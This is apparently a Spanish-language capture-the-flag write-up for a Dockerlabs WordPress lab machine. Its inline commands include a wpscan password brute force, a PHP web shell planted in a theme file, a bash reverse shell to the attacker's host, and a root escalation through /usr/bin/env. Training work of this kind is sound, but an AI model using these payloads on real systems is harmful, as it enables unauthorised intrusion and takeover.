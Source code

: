 Desplegamos la máquina vulnerable poniendo en la terminal la línea de comandos **bash auto_deploy.sh walkingcms.tar** en la carpeta donde se encuentre el contenido extraído del zip.<br>
<ins>La dirección IP de la máquina a vulnerar siempre es la 172.17.0.2</ins>.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/87016dbc-b099-4e2a-91f1-eb2ea00839f9)

Ahora, realizamos un escaneo de puertos de la máquina para revisar los puertos abiertos existentes y los posibles servicios a atacar mediante el uso de esos puertos.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/2b40400c-b8a9-42af-b6fd-40076e7f34db)

Podemos ver que se encuentra abierto el puerto ***80***, correspondiente al servicio ***HTTP***.

Vamos a intentar atacar mediante HTTP. Nos dirigimos al navegador y en el buscador ponemos http://172.17.0.2:80.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/87a25bee-f4ae-4562-bed1-f63a6f416fdf)

Vamos a obtener los subdirectorios existentes en la página web para conseguir visualizar otras páginas que puedan darnos más información.
Debido a que revisando el código fuente de la página y mediante el uso del comando ***ffuf*** para realizar fuzzing no detectamos nuevas páginas, vamos a emplear un comando similar llamado ***gobuster***, con el que obtendremos las páginas existentes en distintos formatos. En este caso, vamos a buscar aquellas que tengan extensión .*html*, .*php*, .*sh* y .*py*.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/d00434fd-ebca-4a97-9170-b7fda47694b5)

Hemos encontrado un subdirectorio web llamado "wordpress". Podemos visualizar su contenido en busca de algun detalle o alguna pista para lograr vulnerar mediante el HTTP a la máquina que queremos atacar.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/b17aa335-a198-4a34-8f16-89998adbd10e)

Al acceder a la dirección http://172.17.0.2/wordpress nos sale esta página de inicio. Miramos aquello en lo que podamos rebuscar, por ejemplo, probamos a ver que ocurre si hacemos clic donde pone "¡Hola, mundo!" o en "Página de ejemplo".

Al pulsar en el texto "¡Hola, mundo!":

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/2218fc2a-9f6a-47fc-8103-cfb89710770a)

Vemos que el usuario que ha escrito esta entrada es el usuario **mario**.

Al pulsar en el texto "Página de ejemplo":

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/31364630-32ea-45a1-96df-e1f68ca3995d)

Parece que hay otro enlace insertado en el texto ("tu escritorio"), comprobamos hacia donde nos redirige:

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/bbd12af0-4d40-49bb-8c0a-009c29c014d3)

El enlace nos ha llevado al formulario de inicio de sesión de WordPress, por lo que hay que obtener la contraseña del usuario mario para acceder a su panel de WordPress.

Para realizar un ataque de fuerza bruta en WordPress existe un comando en Kali Linux llamado ***wpscan***, que se encarga de escanear las vulnerabilidades de un sitio web creado con WordPress. La línea de código que utilizaremos en la terminal para el ataque de fuerza bruta es **wpscan --url 172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt**

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/b4db0c25-c05b-419d-9084-9cadf1305bea)

Podemos ver que la ejecución del comando nos devuelve unas claves válidas para el formulario de Login de WordPress:

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/938f03ec-de16-4922-a0e9-eef32d2202ce)

La contraseña del usuario "mario" es "love". Probamos las credenciales en el formulario.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/f1c534ca-960a-434f-a7fd-d0d39bbab1cf)

Estamos dentro del panel de administración del sitio web. Hay que buscar ahora la manera de acceder a la máquina desde el sitio web.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/73c0ddf8-9174-4402-8485-74e126c3f5c9)

Podemos intentar realizar una reverse shell desde WordPress mediante un plugin que nos permita la edición de plantillas. Para ello nos vamos a **Apariencia>Theme Code Editor**.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/0514ddfc-87b5-4396-acc8-817eb715b792)

Dentro de esta ventana, en **Theme Files** seleccionamos *index.php*:

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/08d65946-12fe-4dab-a136-93a0162f7664)

Editamos el código existente e insertamos lo siguiente: **&lt;?php echo "&lt;pre&gt;". shell_exec($_REQUEST['cmd']). "&lt;/pre&gt;" ?&gt;**


  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/f49759eb-c2d0-4c73-ada0-32f7ead3abc3)

Ahora si nos dirigimos a visualizar el archivo index.php en el navegador escribimos la dirección http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php y seguido del index.php escribimos la cadena de texto "**?cmd=**" para poder ejecutar cualquier comando de consola y ver la salida de este en la página. Esto es lo que se nos muestra al ejecutar el comando whoami:

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/a0233513-5a48-495c-bc74-713bcd3c007d)

Somos el usuario www-data. Sabiendo que podemos ejecutar cualquier comando, vamos a realizar una reverse shell utilizando la página web [https://www.revshells.com/](https://www.revshells.com/).

Nos ponemos en escucha por el puerto 443:

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/ebe01817-867c-4993-824e-282b4d583439)

Una vez tenemos la reverse shell (en mi caso, *bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'*) tendremos que descodificarlo para transformarlo en un formato válido para la dirección URL. Para ello usamos el Decoder disponible en Burp Suite y copiamos la cadena generada para ejecutar la reverse shell.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/f2c93360-b174-4cc2-bed3-196178cf2212)

Y una vez ejecutamos esto, la página se queda cargando, por lo que al mirar en nuestra terminal abierta vemos que la reverse shell ha funcionado correctamente:

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/265a7822-57f1-45f5-b206-7ee3d04a4d9d)

Vamos a realizar una escalada de privilegios para acceder como el usuario root:

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/1cf48d6a-e447-4491-956d-fd88574a47e1)

Vemos que el usuario www-data puede ejecutar estos archivos binarios. En este caso, nos interesa realizar la escalada de privilegios mediante el binario ***/usr/bin/env***.
Escribimos el comando **/usr/bin/env /bin/bash -p** para lograr el acceso como el usuario root.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/9a4ec453-e1ca-44c3-8a1e-34271cb13a19)

Hemos logrado acceder como el usuario root, por lo que ahora podemos realizar cualquier acción en el sistema.

Una vez finalizamos con la máquina de Dockerlabs presionamos **Ctrl+C** para eliminarla.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/796f2ec8-acc0-4b0d-bb06-abfe42262359)
